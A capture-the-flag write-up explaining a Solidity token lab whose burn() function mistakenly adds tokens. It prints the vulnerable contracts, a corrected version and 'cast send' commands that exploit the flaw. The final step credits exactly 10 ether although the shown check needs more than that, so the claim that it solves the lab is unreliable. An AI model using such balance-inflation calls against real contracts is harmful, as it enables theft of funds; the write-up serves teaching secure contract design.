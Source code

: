 ## Mitigation

The *NewBank Contract* uses a *BetterERC20*, at least that's what they thought, but no, it's not secure at all. As mentioned in the prologue, that *Any deviation from the standard doesn't necessarily introduce vulnerability, but it could*, this is the perfect case of that; let's compare it &nbsp;  
&nbsp;  
```solidity
// NewBank.sol::burn()
    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }

// How it should be implemented
    function burn(uint256 _value) external {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance to burn");
        
        balanceOf[msg.sender] -= _value; // Decrease balance
        totalSupply -= _value; // Adjust total supply 

        emit Transfer(msg.sender, address(0), _value); // Emit Transfer event to address(0)
    }
```
&nbsp;  
Well, there the *mint()* is designed like that so that player would look over another function to begin with, so we are not going to talk about it, instead we are going to talk about the one that could give us the opening to solve the challenge. *burn()* was meant to permanently remove tokens from circulation, but this one, this one could give you token just like *mint()*. That's why to correctly adopt the ERC-20 standard, the implementation must be at least following the original one, or if there are any deviations from the standard, it needs to be checked to make sure it doesn't introduce any vulnerability.

## Walkthrough

This heist requires you to get at least 10 Ether from the NewBank that they create in the mist of Inju Bank fall. &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./NewBank.sol";

contract Setup{
    NewBank public NB;
    address public player;

    constructor(uint256 _initialSupply) {
        NB = new NewBank(_initialSupply);
    }

    function setPlayer() public{
        require(msg.sender == tx.origin, "Only Human are allowed to be Player");
        player = msg.sender;
    }

    function isSolved() public view returns(bool){
        return NB.balanceOf(player) > 10 ether;
    }
}
```
&nbsp;  
In the *Setup Contract*, we can know that the *isSolved()* function requires us to first *setPlayer()*, and it can only be an EOA, meaning we can't use any Exploit Contract here. Now let's see other files that were also given to us, *BetterERC20.sol* and *NewBank.sol*, We are going to see the *BetterERC20.sol* first. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBetterERC20 {
    function transfer(address _to, uint256 _value) external returns (bool);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);

    function approve(address _spender, uint256 _value) external returns (bool);

    function mint(uint256 _value) external;

    function burn(address _who, uint256 _value) external;

    function owner() external view returns (address);

    function balanceOf(address _who) external view returns (uint256);

    function allowance(
        address _owner,
        address _spender
    ) external view returns (uint256);

    function name() external view returns (string memory);

    function symbol() external view returns (string memory);

    function decimals() external view returns (uint8);
}
```
&nbsp;  
It turns out it's not a contract but an interface, and to be precise, it's an ERC20 interface. Knowing that we are working with an ERC Standard makes the scope of search much easier. What we need to be focused on here is a misimplementation or override of the ERC20 original function. For this, let's see the *NewBank Contract*. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {IBetterERC20} from "./BetterERC20.sol";

contract NewBank is IBetterERC20{
    address public override owner;
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    string public override name = "NewBank Token";
    string public override symbol = "NBT";
    uint8 public override decimals = 18;

    constructor(uint256 _initialSupply) {
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(address _from, address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(allowance[_from][msg.sender] >= _value, "Allowance exceeded");
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(address _spender, uint256 _value) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only Owner are allowed to mint!");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }
    
}
```
&nbsp;  
After viewing all the functions here, it seems almost everything is okay except the *burn()* function. *burn()* usually removes a token from the supply and deducts the balance, but this time it's adding it instead of deducting it, so this is the flaw. &nbsp;  
&nbsp;  
We already found the way to get ourselves some balance by calling *burn()* with the value of address pointing to our wallet with the value of 10 Ether, so let's just do that! &nbsp;  
&nbsp;  
```bash
// Getting the NewBank Address
cast call -r $RPC_URL $SETUP_ADDR "NB()"

// Get Ourselves 10 Ether
cast send -r $RPC_URL --private-key $PK $NB_ADDR "burn(address,uint256)" $WALLET_ADDR 10000000000000000000
```
&nbsp;  
By running the commands above in your terminal, you should've solved the lab!
